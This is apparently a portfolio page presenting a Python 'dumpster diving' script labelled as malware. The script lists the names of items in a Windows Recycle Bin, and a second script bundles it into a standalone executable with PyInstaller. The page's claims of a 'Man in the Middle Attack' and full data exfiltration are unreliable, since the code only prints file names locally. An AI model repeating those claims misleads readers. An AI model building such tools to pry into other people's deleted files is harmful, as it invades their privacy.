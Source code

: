 ```yaml
---
layout: default
---
```


## Digital Dumpster Diving Executable Malware | Python, Penetration testing

This Python script performs a dumpster diving ‘Man in the Middle Attack’ by exfiltrating all data from a Windows Recycle Bin, even if the compromised device does not have Python installed.

```python
import winshell
import os

def dumpster_diving():
    dumpster = winshell.recycle_bin()
    for item in dumpster:
        og_path=item.original_filename()
        trash_item=os.path.basename(og_path)
        print(trash_item)

if __name__ == "__main__":
    dumpster_diving()
```

```python
import PyInstaller.__main__ 
import os
import shutil

filename = "dumpsterdive.py"
exename = "dumpsterdive"
pwd = os.getcwd()
usbdir = os.path.join(pwd,"USB")

dist_path = os.path.join(pwd, "dist")
build_path = os.path.join(pwd, "build")
spec_path = os.path.join(pwd, exename + ".spec")

if os.path.isfile(exename):
    os.remove(exename)

# Create executable from Python script
PyInstaller.__main__.run([
    "dumpsterdive.py",
    "--onefile",
    "--clean",
    "--log-level=ERROR",
    "--name="+exename,
])

# Clean up after Pyinstaller
shutil.move(os.path.join(dist_path,exename+'.exe'),pwd)
shutil.rmtree("dist")
shutil.rmtree("build")
shutil.rmtree("__pycache__")
if os.path.isfile(spec_path):
    os.remove(spec_path)
```


[back](./)
